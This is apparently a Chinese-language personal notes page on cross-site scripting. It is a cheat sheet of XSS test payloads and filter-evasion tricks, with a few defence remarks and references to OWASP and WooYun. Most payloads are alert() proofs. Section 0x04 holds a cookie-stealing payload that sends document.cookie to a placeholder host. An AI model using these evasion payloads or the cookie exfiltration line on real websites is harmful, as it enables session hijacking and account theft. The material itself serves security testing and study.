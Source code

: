 ```yaml
---
title: "XSS"
date: 2016-01-20 21:38
---
```


## 0x01 xss cheat sheet

xss cheat sheet 即测试xss的测试样表

[XSS_Filter_Evasion_Cheat_Sheet][2]

[XSS Filter Evasion Cheat Sheet 中文版][3]

[HTML5 Security Cheatsheet][1]


```
<script>alert(1);</script>
<script>alert('xss');</script>
<iframe onload="alert(1)"></iframe>
```

## 0x02 xss 过滤绕过

* <> 

```
<scirpt>alert(1);</script>
```

对 <> 或 < script > 进行过滤或转义，可以防御此类xss 

* HTML标签属性执行XSS

很多HTML标签属性支持 javascipt:[code] 伪协议的形式。这个协议类型声明了URL的主体是任意的JavaScript代码，由javascript的解释器运行

```
<table background="javascript:alert(/xss/)"></table>
<img src="javascript:alert('xss');">
```

> 并不是所有的浏览器都支持javascript伪协议

并不是所有的标记的属性都可以产生XSS，通常只有引用文件的属性才能触发XSS。

```
href=
lowsrc=
bgsound=
background=
value=
action=
dynsrc=
```

* 空格 换行 Tab

```
<img src="javas cript:alert(/xss/)" width=100>
```

> javas 和 cript是Tab

关键字拆分绕过过滤限制，使用Tab, 空格， 换行。原因分析如下：

javascript语句通常以分号结尾，如果一个语句是完整的，而这一行的结尾是换行符，就可以省略分号。如果同一行中有过个语句，则每个语句就必须使用分号来结束(最后一条语句可以不用分号)

```
var a = true
var b = "something";
```

除了在引号中分隔单词或强制结束语句外，额外的空白无论以何种方式添加都无所谓。

```
<img src="javas
cript:
alert(/xss/)">
```

换行处不是一个完整语句时，js会继续处理发现的内容，直到遇到一个分号或发现完整的语句为止

* 标签属性值转码

原理： HTML属性中，会自动对实体字符进行转义

编码绕过，HTML标记的属性值过滤，HTML **属性** 本身支持ASCII码形式, 转码支持十进制和十六进制。

可以在十进制（十六进制）字符后面加 **;** , 还可以在前面加 0 , 如

```
&#0
&#00
&#000
&#0000
```

```
<img src="a" onerror="aler&#116(/xss/)">
<img src=1 onerror="aler&#116;(/xss/)">
<img src="a" onerror="&#97&#108&#101&#114&#116&#40&#47&#120&#115&#115&#47&#41">
<img src="a" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#47;&#120;&#115;&#115;&#47;&#41;">
<img src="a" onerror="&#x61&#x6c&#x65&#x72&#x74&#x28&#x2f&#x78&#x73&#x73&#x2f&#x29">
<img src="a" onerror="&#000097&#000108&#000101&#000114&#000116&#000040&#000047&#000120&#000115&#000115&#000047&#000041">
<img src="a" onerror="&#97&#108&#101&#114&#116&#32&#40&#47&#120&#115&#115&#47&#41">
```

注：

```
Tab(&#9), 换行符(&#10), 空格(&#32)可以被插入到代码中任意地方。
```

**防御：**

```
&过滤为 &amp; 
```

* 产生自己的事件

当不能依靠属性进行跨站时，可以使用事件。js和HTML之间的交互是通过事件来实现的，事件就是用户或浏览器自身执行的某种动作，如click, load等，而响应事件的函数叫做事件处理函数（或事件侦听器）。

W3C将事件分为3个不同的类别：

```
用户接口(鼠标，键盘)
逻辑（处理的结果）
变化（对文档进行修改）
```

测试事件型xss:

```
onResume
onReverse
onRowDelete
onRowInserted
onSeek
onSynchRestored
onTimeError
onTrackChange
onURLFlip
onRepeat
onMediaComplete
onMediaError
onPause
onProgress
onOutOfSync
onlayoutcomplete
onafterprint
onbeforeprint
ondataavailable
ondatasetchanged
ondatasetcomplete
onerrorupdate
onrowenter
onrowexit
onrowsdelete
onrowsinserted
onselectionchange
onbounce
onfinish
onstop
onresizeend
```

* CSS 跨站剖析

xss另一个载体是CSS样式表，使用CSS样式表执行js具有隐蔽，灵活多变等特点，但其有个很大的缺点：各浏览器之间不能通用，甚者可能同一浏览器不同版本之间都不能通用

```
<div style="background-img:url(javascript:alert('xss'))">
<style>
    body {background-image: url{"javascript:alert('xss')"};}
</style>
```

* eval

```
<script>
eval("alert('xss')");
</script>

# eval 执行十六进制字符串形式
<script>
eval("\x61\x6c\x65\x72\x74\x28\x27\x78\x73\x73\x27\x29");
</script>

# eval 执行10进制形式，需要 String.fromCharCode() 配合使用
```

## 0x03 常见绕过

```
# 大小写转换
<IMG sRc="a" onerror="alert(/xss/)">
# 单引号
<img src="a" onerror='alert(/xss/)'>
# 不用引号
<img src="a" onerror=alert(/xss/)>
# / 隔开
<img/src="a"/onerror="alert(/xss/)">
# /**/
<img/**/src="a"/**/onerror=alert(/xss/)>
```

## 0x04 常用 xss payload

```
# <svg>
<svg><script>location.href="http://ip/xss.php?q="+document.cookie</script></svg>
```

## 0x05 浏览器特性

### chrome

* Chrome下data协议执行代码

```
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

* Chrome下srcdoc属性

```
<iframe srcdoc="&lt;script&gt;alert(1)&lt;/script&gt;"></iframe>
```

### IE

* IE下vbscript执行代码

```
<iframe src="vbscript:msgbox(1)"></iframe> 
```

## 0x06 flash

[swf反编译软件下载][4]

## 0x 参考

* [ 乌云 Flash Xss入门--navigateToURL][5]

* [ 乌云 Flash Xss进阶--ExternalInterface.call(1)][6]

* [ 乌云 Flash Xss进阶--ExternalInterface.call(2)][7]

* [ 乌云 Flash Xss进阶--addCallback][8]

[1]: http://html5sec.org/
[2]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[3]: http://drops.wooyun.org/tips/1955
[4]: https://www.free-decompiler.com/flash/download/
[5]: http://www.wooyun.org/bugs/wooyun-2010-016512
[6]: http://www.wooyun.org/bugs/wooyun-2010-016532
[7]: http://www.wooyun.org/bugs/wooyun-2010-016598
[8]: http://www.wooyun.org/bugs/wooyun-2010-016803
